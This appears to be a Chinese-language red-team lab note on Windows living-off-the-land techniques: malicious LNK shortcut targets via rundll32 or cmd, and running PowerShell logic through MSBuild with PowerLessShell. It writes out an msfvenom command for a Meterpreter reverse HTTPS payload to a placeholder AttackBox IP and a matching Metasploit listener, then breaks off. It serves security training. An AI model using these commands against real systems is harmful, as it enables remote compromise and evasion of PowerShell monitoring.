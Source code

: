 
#### 其他“就地取材”技术 (Other "Living Off the Land" Techniques)

##### 1. 快捷方式修改 (Shortcut Modification - LNK Files)

- **快捷方式 (.lnk 文件)** 或符号链接是用于引用操作系统内其他文件或应用程序的技术。用户点击快捷方式文件时，操作系统会执行其引用的目标文件或应用程序。
- **恶意滥用**: 攻击者可以创建或修改现有的快捷方式文件，将其目标指向恶意程序或脚本。这可以被用于：
    - **初始访问 (Initial Access)**: 例如，通过钓鱼邮件发送恶意的 LNK 文件。
    - **权限提升 (Privilege Escalation)**: 如果能修改高权限用户桌面或启动项中的快捷方式。
    - **持久化 (Persistence)**: 将恶意 LNK 文件放置在启动文件夹、任务栏固定项等位置。 MITRE ATT&CK 框架将这种技术识别为 **T1547.009 - Boot or Logon Autostart Execution: Shortcut Modification**。
- **修改目标示例**: 快捷方式的目标字段可以被设置为执行：
    - `Rundll32.exe` (调用 DLL 中的函数或执行 JScript/VBScript)
    - `Powershell.exe` (执行 PowerShell 命令或脚本)
    - `Regsvr32.exe` (执行恶意 DLL 或 SCT 文件)
    - 直接指向磁盘上的可执行文件。 例如，攻击者可以修改一个指向 Excel 的快捷方式，使其目标字段变为 `C:\Windows\System32\rundll32.exe malicious.dll,ExportedFunction` 或者 `C:\Windows\System32\cmd.exe /c C:\path\to\malware.exe`。当受害者点击看似正常的 Excel 快捷方式图标时，实际上会执行攻击者指定的恶意代码。

##### 2. “无 PowerShell”执行：利用 MSBuild (No PowerShell Execution: Leveraging MSBuild via PowerLessShell)

- **背景**: 鉴于 PowerShell 在恶意活动中的广泛使用（如 Red Canary 2019 年的威胁检测报告指出），许多组织开始加强对 `powershell.exe` 进程执行的监控或直接阻止。因此，攻击者找到了其他方法来在目标机器上运行 PowerShell 代码逻辑，而无需显式启动 `powershell.exe` 进程。
- **PowerLessShell 工具**:
    - PowerLessShell 是一个基于 Python 的工具，它能够将 PowerShell 脚本或命令转换为一种可以在目标机器上通过其他方式执行的格式，从而避免直接运行 `powershell.exe`。
    - 它依赖于滥用 **Microsoft Build Engine (`MSBuild.exe`)**。MSBuild 是一个用于构建 Windows 应用程序的平台，它可以处理包含内联任务 (Inline Tasks) 的 XML 项目文件 (`.csproj`, `.vbproj` 等)。这些内联任务可以用 C# 等 .NET 语言编写，并在 MSBuild 执行项目文件时被编译和运行。攻击者可以将 PowerShell 代码逻辑封装在 C# 内联任务中，然后通过 `MSBuild.exe` 来执行这个项目文件。
- **攻击流程**:
    1. **下载 PowerLessShell**:
        
        Bash
        
        ```
        user@machine$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
        ```
        
    2. **生成 PowerShell 载荷 (例如，Meterpreter)**:
        
        Bash
        
        ```
        user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=<AttackBox_IP> LPORT=4443 -f psh-reflection > liv0ff.ps1
        ```
        
        (`psh-reflection` 格式生成 PowerShell 反射式注入代码)
    3. **设置 Metasploit 监听器**:
        
        Bash
        
        ```
        user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost <AttackBox_IP>; set lport 4443; exploit"
        ```
        